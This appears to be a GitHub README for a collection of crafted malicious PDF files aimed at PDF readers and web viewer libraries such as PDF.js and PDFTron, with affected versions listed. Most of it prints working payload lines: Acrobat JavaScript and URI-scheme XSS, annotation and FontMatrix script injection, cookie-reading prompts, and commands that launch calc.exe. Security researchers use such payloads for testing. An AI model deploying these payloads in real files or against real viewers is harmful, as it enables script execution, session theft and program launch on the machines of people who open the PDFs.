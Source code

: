 # Payloads All The PDFs

<a href="https://twitter.com/intent/follow?screen_name=evaristegal0is"><img src="https://img.shields.io/twitter/follow/evaristegal0is?style=social" alt="Follow @evaristegal0is"></a>

A list of crafted malicious PDF files to test the security of PDF readers and tools.</br>

### Vulnerabilities found

- [Foxit PDF SDK For Web](https://www.npmjs.com/package/@foxitsoftware/foxit-pdf-sdk-for-web-library) 7.5.0 (~600 weekly downloads)
- [PDFTron WebViewer](https://www.npmjs.com/package/@pdftron/webviewer) 7.2.0, 7.3.1, 8.6.1, 10.1.0, 10.7.2 (~87k weekly downloads)
- [PSPDFKit for Web](https://www.npmjs.com/package/pspdfkit) 2021.4.1 (~13k weekly downloads)
- [Syncfusion ej2-pdfviewer](https://www.npmjs.com/package/@syncfusion/ej2-pdfviewer) 20.2.40 (~6.8k weekly downloads)
- [React PDF viewer](https://www.npmjs.com/package/@react-pdf-viewer/core) 3.6.0 (~34k weekly downloads)
- [PDF.js](https://www.npmjs.com/package/pdfjs-dist) <= 4.1.392 (~2 million weekly downloads)

## Payloads list

### payload1.pdf

**Line 31**. Understand if [Acrobat Javascript APIs](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/AcrobatDC_js_api_reference.pdf) are supported.
```
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (data:text/html,<script>alert\(2\);</script>)
```

**Line 177**. Try to inject Javascript code using annotations.
```
<</Type /Annot /Rect [284.7745656638 581.6814031126 308.7745656638 605.6814031126 ] /Subtype /Text /M (D:20210402013803+02'00) /C [1 1 0 ] /Popup 15 0 R /T (\">'><details open ontoggle=confirm\(3\)>) /P 6 0 R /Contents (��^@"^@>^@'^@>^@<^@d^@e^@t^@a^@i^@l^@s^@ ^@o^@p^@e^@n^@ ^@o^@n^@t^@o^@g^@g^@l^@e^@=^@c^@o^@n^@f^@i^@r^@m^@\(^@'^@X^@S^@S^@'^@\)^@>) >>
```

### payload2.pdf

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (\">'><details open ontoggle=confirm\(2\)>)
```

### payload3.pdf

**Line 31**. Understand if the PDF reader or tool runs arbitrary Javascript bypassing the Acrobat APIs.
```
/JS (app.alert\(1\); confirm\(2\); prompt\(document.cookie\); document.write\("<iframe src='https://14.rs'>"\);)
```

**Line 69**. Try to run remote commands on Windows.
```
/URI (file:///C:/Windows/system32/calc.exe)
```

### payload4.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.openDoc("/C/Windows/System32/calc.exe");)
```

**Line 69**. Try to run remote commands on Windows.
```
 /URI (START C:/\Windows/\system32/\calc.exe)
```

### payload5.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.launchURL\("START C:/\Windows/\system32/\calc.exe", true\); app.launchURL\("javascript:confirm\(3\);", true\);)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
 /URI (javascript:confirm\(2\);)
```

### payload6.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
 /JS (app.alert\(1\); app.launchURL\("/C/Windows/system32/calc.exe", true\); app.launchURL\("'><details open ontoggle=confirm\(3\);", true\);)
```

### payload7.pdf

**Line 50**. Try to run arbitrary Javascript injected via annotation. It works on vulnerable Apryse PDF Webviewer versions.
```
/V (">'></div><details/open/ontoggle=confirm(document.cookie)></details>)
```

### payload8.pdf

**Line 49**. Try to run arbitrary Javascript injected via FontMatrix. It works on vulnerable PDF.js versions.
```
/FontMatrix [1 2 3 4 5 (1\); alert\('origin: '+window.origin+'\\npdf url: '+window.PDFViewerApplication.url)]
```

___

![Hack the planet](img/hack_the_planet.gif)

If you want to support me you can offer me a coffee ☕</br></br>
<a href="https://www.buymeacoffee.com/gubello" target="_blank"><img src="https://bmc-cdn.nyc3.digitaloceanspaces.com/BMC-button-images/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important;width: auto !important;" ></a>
